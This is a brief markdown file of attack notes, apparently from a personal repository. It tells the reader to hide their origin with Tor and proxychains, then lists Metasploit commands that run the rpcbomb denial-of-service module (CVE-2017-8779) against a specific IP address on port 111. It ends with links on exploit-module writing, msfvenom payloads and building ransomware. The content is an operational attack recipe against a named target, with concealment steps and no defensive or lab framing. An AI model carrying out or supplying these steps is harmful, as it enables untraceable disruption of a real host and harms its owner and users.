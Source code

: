 # Attacks 

Documentation on how to attack services

## Before Attacking 

use tor first then proxychains 
First Terminal
`tor`

Second terminal
`proxychains <program>`

## CVE-2017-8779

### RPCbind port 

Open the Metasploit framework and type 'use auxiliary/dos/rpc/rpcbomb'
set RHOSTS to 149.56.38.19 and RPORT to 111
Type 'exploit'

### Impact

An attacker could use this vulnerability to trigger large unfreed memory allocations on the system leading to a remote Denial of Service.


## References

WRITING AN EXPLOIT MODULE
- https://www.offensive-security.com/metasploit-unleashed/shell/

MSFVENOM
- https://www.offensive-security.com/metasploit-unleashed/msfvenom/

MYSQL
- https://www.offensive-security.com/metasploit-unleashed/scanner-mysql-auxiliary-modules/

Ransomware
- https://www.sentinelone.com/blog/build-your-own-ransomware-project-root-behind-enemy-lines-part-2/